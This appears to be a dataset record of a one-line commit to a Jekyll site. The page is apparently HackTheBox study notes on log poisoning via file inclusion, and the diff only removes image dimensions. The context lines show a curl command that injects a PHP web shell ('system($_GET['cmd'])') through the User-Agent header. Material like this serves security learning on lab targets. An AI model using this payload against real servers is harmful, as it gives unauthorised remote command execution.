

Before and after one commit to HenryEarl/HenryEarl.github.io, a Jekyll site: the page built from docs/HowToDocs/HackTheBox/Exploitation/File_Inclusion/Log_Poisoning.md, in a window 1280 px wide. Shown: the whole page at 99% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; before the commit the page ends 900 px from its top, so only the background shows below that.

Commit message:
Update Log_Poisoning.md

````diff
--- a/docs/HowToDocs/HackTheBox/Exploitation/File_Inclusion/Log_Poisoning.md
+++ b/docs/HowToDocs/HackTheBox/Exploitation/File_Inclusion/Log_Poisoning.md
@@ -8,4 +8,4 @@ title: Log Poisoning
 Jerad Rodgers@htb[/htb]$ curl -s "http://<SERVER_IP>:<PORT>/index.php" -A "<?php system($_GET['cmd']); ?>"
 ```
 
-<img width="989" height="232" src="/assets/images/rfi_log-poison.png"/>
+<img src="/assets/images/rfi_log-poison.png"/>
````
